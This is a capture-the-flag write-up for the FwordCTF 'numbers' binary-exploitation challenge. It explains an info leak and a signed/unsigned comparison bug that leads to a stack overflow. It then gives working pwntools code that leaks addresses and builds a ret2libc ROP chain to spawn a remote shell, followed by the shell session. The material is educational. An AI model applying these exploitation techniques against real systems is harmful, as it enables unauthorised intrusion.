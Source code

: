 # Numbers

We are given a 64-bit executable:
```bash
$ file numbers
numbers: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=8f76f3042db00cbbb5da977e530fac85c27dff93, stripped
```

The following protections are enabled:
```bash
checksec numbers
[*] '/home/vagrant/CTF/fword/numbers/numbers'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We see that no stack canary is present. This usually means that there will be a buffer overflow we can exploit.

The program asks for a number `<=60`, asks us if we are sure and then repeats the whole process, as long as we do not answer `n` to the `try again ?` dialogue:
```bash
 ./numbers

do you have any number in mind ??
42
are yo sure ??
yes
yes

try again ?
sure

do you have any number in mind ??
are yo sure ??

try again ?
```

Time to analyze the programm. The function `are_you_sure` reads up to the number of bytes we specified and then prints this out using `printf("%s", buf);`. Here lies the first weakness. The string we provide is reflected without being `null` terminated. Thus, we can leak addresses on the stack by providing a string that is a multiple of 8 bytes long (including `\n`). 

```c
__int64 __fastcall are_you_sure(unsigned int num)
{
  char buf[64]; // [rsp-40h] [rbp-40h] BYREF

  puts("are yo sure ??");
  read(0, buf, num);
  printf("%s", buf);
  return 0LL;
}
```

We can leak the PIE base using this leak function:
```python
def leak_addr(number):
    io.sendlineafter("do you have any number in mind ??", str(number))
    payload = "A"*(number-1)
    io.sendlineafter("are yo sure ??", payload)
    io.recvline()
    io.recvline()
    leak = io.recvline()
    leak = u64(leak.strip().ljust(8, "\x00"))
    return leak
```

Now we need to find a way to control `RIP`. The `read_number` function verifies whether our number is less or equal than 60.
The program converts our inpupt to an unsigned integer, but performs a signed comparison. By providing a negative number, we can makes the signed check true,
but then return on a huge unsigned number as return value. This number will then be used in the `are_you_sure` function (see above) to read that many bytes into a 64-byte buffer. Because canaries are disabled, we can get RIP control easily. 

```c
__int64 __fastcall read_number(int *num)
{
  __int64 result; // rax
  char buf; // [rsp-8h] [rbp-8h] BYREF

  puts("\ndo you have any number in mind ??");
  read(0, &buf, 8uLL);
  *num = atoi(&buf);
  result = (unsigned int)*num;
  if ( (int)result <= 60 )
    return result;
  puts("you're a naughty boy..");
  exit(1);
  return result;
}
```

We now use this overflow to leak a libc adress (puts) and return to the start of main, so we can exploit the buffer overflow again:
```python
io.sendlineafter("try again ?", "")
io.sendlineafter("do you have any number in mind ??", "-3") # negative number <=60 in signed comparision. Will read a lot of data

# Rop chain to leak libc
rop_exe =  ROP(exe)
rop_exe.puts(exe.got.puts)
rop_exe.call(piebase + 0x9c5) # main

#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # local
libc = ELF('./libc6_2.28-0ubuntu1_amd64.so') # remote

# create payload
payload = "A"*64
payload += "B"*8
payload += str(rop_exe)

io.sendafter("are yo sure ??", payload)
io.recvuntil("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB")
```

Analyzing the address of the leak and using `https://libc.blukat.me/` we identify that `libc6_2.28-0ubuntu1_amd64.so` is used on the remote server. Knowing this, we can  exploit the buffer overflow a second time, now calling `system('/bin/sh')`. We just have to make sure that `RSP` is 0x10 bytes aligned (which it was not if called directly). We could do this using a `pop` gadget or by calling puts with some value and hoping to have better alignment:

```python
io.sendlineafter("do you have any number in mind ??", "-3") # negative number <=60 in signed comparision. Will read a lot of data

# create system('/bin/sh') rop chain
rop = ROP(libc)
rop.puts(libc.sym.puts) # stupid pivot because of 0x10 alignment for rsp
rop.system(next(libc.search("/bin/sh")))

#print rop.dump()

payload = "A"*64
payload += "B"*8
payload += str(rop)

io.sendafter("are yo sure ??", payload)
io.recvuntil("AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB")

io.interactive()
```

Running the script gives us a shell and we can read the flag:

```bash
$  numbers python xpl.py
[*] '/home/vagrant/CTF/fword/numbers/numbers'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to numbers.fword.wtf on port 1237: Done
[+] piebase: 0x5560f04c7000
[*] Loaded 14 cached gadgets for 'numbers'
[*] '/home/vagrant/CTF/fword/numbers/libc6_2.28-0ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] libc address: 0x7f22d22fc000
[*] Loaded 196 cached gadgets for './libc6_2.28-0ubuntu1_amd64.so'
[*] Switching to interactive mode
o�1�"AUATI\x89�USH����ls
flag.txt
numbers
ynetd
$ cat flag.txt
FwordCTF{s1gN3d_nuMb3R5_c4n_b3_d4nG3r0us}
$
```

The full exploit can be found in `xpl.py`.